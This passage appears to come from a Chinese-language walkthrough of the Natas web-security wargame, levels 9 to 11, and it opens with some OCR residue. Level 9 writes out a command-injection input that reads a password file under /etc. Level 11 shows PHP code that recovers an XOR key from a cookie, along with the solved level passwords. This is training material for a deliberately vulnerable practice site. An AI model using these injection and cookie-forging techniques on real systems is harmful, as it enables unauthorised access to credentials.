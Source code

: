     #oubWYf2kBq

    #W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

    ```

# level 9

>同 exec() 函数类似， passthru() 函数也是用来执行外部命令（command）的。当所执行的 Unix 命令输出二进制数据，并且需要直接传送到浏览器的时候，需要用此函数来替代 exec() 或 system() 函数。常用来执行诸如 pbmplus 之类的可以直接输出图像流的命令

* steps

    ```PHP

    想提前闭合完成来着，但是发现不成功

    但是可以代替字典文件

    '' /etc/natas_webpass/natas10 #

    #nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
    ```

# level 10

>对上关进行了一些过滤

* steps

    ```PHP
    过滤的三个字符都没有用，可能上关想考查的是管道符

    #U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
    ```

# level 11

>两次异或运算等于本身

* steps

    ```PHP
    要想得到密码，showpassword就要等于true

    先看当前cookie存的data，其中showpassword="no"，bgcolor="#ffffff"

    ```
    ```PHP
    <?php
    $result = 'ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D';
    $de_result = base64_decode($result);
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    $new = json_encode($defaultdata);
    $key = '';
    for ($i=0;$i<strlen($new);$i++){
        $key .= $new[$i] ^ $de_result[$i];
    }
    print($key);
    ?>
